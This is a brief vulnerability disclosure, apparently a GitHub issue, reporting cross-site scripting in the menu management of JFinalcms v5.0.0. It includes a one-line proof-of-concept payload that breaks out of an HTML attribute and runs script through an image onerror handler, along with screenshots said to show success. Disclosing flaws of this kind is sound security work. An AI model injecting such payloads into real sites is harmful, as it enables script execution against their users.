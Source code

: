 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

XSS exists in the menu management department

![图片](https://github.com/JinYunlei/cms/assets/134837499/c29d1514-b1a5-46e2-ae50-75665c1df3dd)


poc:`"><img src=1 onerror=alert(1)>`


![图片](https://github.com/JinYunlei/cms/assets/134837499/d529e1b0-e5a3-4b81-b541-8c5425a6c276)


successed

![图片](https://github.com/JinYunlei/cms/assets/134837499/56600427-103c-41fb-8986-617dfadd1203)

